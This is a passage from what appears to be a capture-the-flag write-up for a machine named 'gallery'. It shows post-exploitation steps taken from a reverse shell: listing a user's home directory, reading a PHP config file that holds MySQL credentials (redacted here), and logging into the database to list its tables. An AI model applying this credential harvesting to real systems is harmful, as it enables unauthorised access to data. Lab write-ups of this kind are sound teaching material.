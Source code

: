 # Privilege Escalation
After having the reverse shell, I started to exploring this machine's home directory.
I found a user flag at `/home/mike`
```
(remote) www-data@gallery:/home/mike$ ls -la
total 44
drwxr-xr-x 6 mike mike 4096 Aug 25  2021 .
drwxr-xr-x 4 root root 4096 May 20  2021 ..
-rw------- 1 mike mike  135 May 24  2021 .bash_history
-rw-r--r-- 1 mike mike  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 mike mike 3772 May 20  2021 .bashrc
drwx------ 3 mike mike 4096 May 20  2021 .gnupg
drwxrwxr-x 3 mike mike 4096 Aug 25  2021 .local
-rw-r--r-- 1 mike mike  807 Apr  4  2018 .profile
drwx------ 2 mike mike 4096 May 24  2021 documents
drwx------ 2 mike mike 4096 May 24  2021 images
-rwx------ 1 mike mike   32 May 14  2021 user.txt
```
However, it only readable by mike.

Then, I discovered a initialize.php file at `/var/www/html/gallery`, which contains MySQL user credentials.
```
(remote) www-data@gallery:/var/www/html/gallery$ cat initialize.php 
<?php
$dev_data = array('id'=>'-1','firstname'=>'---redacted---','lastname'=>'','username'=>'---redacted---','password'=>'---redacted---','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"---redacted---");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"---redacted---");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
``` 
Using that credential to login into MySQL.
```
(remote) www-data@gallery:/var/www/html/gallery$ mysql -u [redacted] -p gallery_db
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 365
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [gallery_db]> 
```
Find all the tables inside gallery_db database.
```
MariaDB [gallery_db]> show tables;
+----------------------+
| Tables_in_gallery_db |
+----------------------+
| album_list           |
| images               |
| system_info          |
| users                |
```